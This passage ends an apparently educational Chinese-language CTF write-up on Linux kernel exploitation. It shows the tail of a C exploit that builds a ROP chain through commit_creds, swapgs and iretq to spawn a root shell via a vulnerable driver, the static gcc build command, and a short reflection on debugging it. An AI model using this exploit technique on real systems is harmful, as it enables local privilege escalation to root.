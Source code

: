 ```
  rop_chain[i++] = POP_RCX_RET + vmlinux;
  rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + vmlinux;
  rop_chain[i++] = commit_creds ;
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}

```

### 7. 编译运行
这里哟个小知识,那就是在被攻击的内核中一般不会给你库函数,所以咱们需要用gcc中的-static参数进行静态链接,然后就是为了支持内嵌汇编代码,所以我们需要使用`-masm=intel`,这里intel也可以换amd,看各位汇编语言用的啥来进行修改.我这里用的把保存状态代码是intel支持的.
```
gcc test.c -o test -static -masm=intel -g
```
将此编译得到的二进制文件打包近文件系统然后重新启动,情况如图
![](http://imgsrc.baidu.com/super/pic/item/faf2b2119313b07e6cb81eca49d7912396dd8cef.jpg)
##### **成功提权!!!!!**

# 0x05总结
为了学这一个题目所需要的知识还是费了点功夫的,需要对于驱动等环境的理解然后就是遇到困难之后静下心寻找问题的耐心,还有最重要的一点就是细心,就因为最后一个sp错写成ss导致一直打不通.
